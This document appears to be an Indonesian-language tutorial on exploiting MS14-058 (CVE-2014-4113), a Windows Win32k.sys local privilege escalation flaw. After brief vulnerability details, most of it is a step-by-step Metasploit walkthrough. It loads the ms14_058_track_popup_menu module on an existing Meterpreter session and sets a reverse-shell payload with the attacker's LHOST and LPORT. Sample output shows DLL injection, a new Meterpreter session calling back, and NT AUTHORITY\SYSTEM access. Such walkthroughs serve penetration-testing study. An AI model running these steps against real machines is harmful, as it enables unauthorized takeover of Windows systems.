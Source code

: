 # MS14-058

## A. Apa itu MS14-058?

[MS14-058](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058) adalah kerentanan Local Privilege Escalation (LPE) pada sistem operasi Windows yang ditemukan di `Win32k.sys`, sebuah driver kernel-mode dari subsistem grafik Windows.

Kerentanan ini memungkinkan penyerang dengan hak akses terbatas (user biasa) untuk mengeksekusi kode arbitrer dalam mode kernel, dan mendapatkan hak akses tertinggi (`NT AUTHORITY\SYSTEM`).

## B. Detail Teknis:

- CVE ID: `CVE-2014-4113`
- Buletin Microsoft: `MS14-058`
- Tanggal Rilis: `14 Oktober 2014`
- Tipe: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan:

Untuk melihat semua sistem yang rentan terhadap `MS14-058`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software)
  
## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS14-058:

   ```
   msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and triggering the exploit...
   [*] Launching msiexec to host the DLL...
   [+] Process 2960 launched.
   [*] Reflectively injecting the DLL into 2960...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 18 opened (192.168.1.42:4444 -> 192.168.1.50:49177) at 2025-05-14 17:01:01 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
